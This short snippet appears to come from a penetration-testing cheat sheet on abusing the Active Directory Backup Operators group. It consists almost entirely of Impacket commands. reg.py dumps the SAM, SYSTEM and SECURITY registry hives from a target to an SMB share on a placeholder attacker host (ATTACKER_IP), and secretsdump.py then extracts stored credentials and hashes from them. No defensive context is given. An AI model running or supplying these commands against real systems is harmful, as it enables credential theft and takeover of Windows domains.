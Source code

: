 
**Backup Operators** is a built-in group in Active Directory environments that grants members the ability to back up and restore files, regardless of file permissions. Members of this group can bypass NTFS permissions to perform backup and restore operations on the system.

```bash
reg.py domain/user:password@target save -keyName 'HKLM\SAM' -o '\\ATTACKER_IPs\share'
reg.py domain/user:password@target save -keyName 'HKLM\SYSTEM' -o '\\ATTACKER_IP\share'
reg.py domain/user:password@target save -keyName 'HKLM\SECURITY' -o '\\ATTACKER_IP\share'
```

Then extract the information:

```bash
secretsdump.py -sam SAM.save -security SECURITY.save -system SYSTEM.save LOCAL
```

